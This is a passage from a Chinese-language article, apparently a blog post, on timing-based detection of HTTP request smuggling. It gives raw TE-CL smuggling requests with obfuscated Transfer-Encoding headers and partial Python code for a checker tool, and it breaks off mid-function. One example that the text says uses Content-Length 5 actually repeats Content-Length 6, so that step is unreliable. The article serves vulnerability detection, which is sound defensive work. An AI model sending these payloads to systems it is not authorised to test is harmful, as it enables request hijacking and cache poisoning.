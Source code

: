 **Payload：**

```
POST / HTTP/1.1
Host: test.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding : chunked

0\r\n
\r\n
X
```

**检测思路：**

`Content-Length` 为 6时，后端处理的`Content-Length`为6，但收到的数据体0\r\n\r\n，因此后端会一直等待第6个字节，直到超时。

```
POST / HTTP/1.1
Host: test.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding : chunked

0\r\n
\r\n
```

`Content-Length` 为 5时，后端收到的数据体0\r\n\r\n，不会超时。

```
POST / HTTP/1.1
Host: test.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding : chunked

0\r\n
\r\n
```

因此如果 `Content-Length` 为 6的响应大于5s ，且 `Content-Length` 为 6的请求时间远大于 `Content-Length` 为 5的请求时间，说明存在漏洞。

<a class="reference-link" name="3%20%E6%A0%B8%E5%BF%83demo%E5%AE%9E%E7%8E%B0"></a>**3 核心demo实现**

因为CL-TE和TE-CL互斥，因此如果存在CL-TE就跳过TE-CL检测，但检测到存在了漏洞时，进行recheck确认后输出。

完整代码：[https://github.com/jweny/HTTP-Request-Smuggling-Checker](https://github.com/jweny/HTTP-Request-Smuggling-Checker)

```
def check_CLTE(self):
    result = self.calcTime(4, "1\r\nZ\r\nQ\r\n\r\n\r\n", 11, "1\r\nZ\r\nQ\r\n\r\n\r\n")
    return result

def check_TECL(self):
    result = self.calcTime(6, "0\r\n\r\nX", 5, "0\r\n\r\n")
    return result

def calcTime(self, length_big_time, payload_big_time, length_small_time, payload_small_time):
    # todo 判断self.payload_headers 不为空
    for headers in self.payload_headers:
        headers['Content-Length'] = length_big_time
        big_time = self.getRespTime(headers, payload_big_time)
        if not big_time:
            big_time = 0
        if big_time &lt; 5:
            continue
        # Content-Length == 11
```